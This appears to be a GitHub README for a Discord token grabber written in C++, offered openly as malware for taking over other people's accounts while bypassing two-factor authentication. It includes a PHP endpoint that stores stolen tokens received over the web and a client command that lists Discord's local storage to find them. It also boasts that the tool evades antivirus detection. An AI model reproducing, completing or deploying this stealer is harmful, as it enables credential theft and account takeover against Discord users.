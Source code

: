 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and can be accessed by anyone so I would recommend changing it.
```php
<?php

$file = fopen("tokens.txt", "w");
if(isset($_GET["t"])){
	fwrite($file, $_GET["t"]);
}

?>
```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Detection
Since it's fresh and not copied it is currently undetected
![Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)
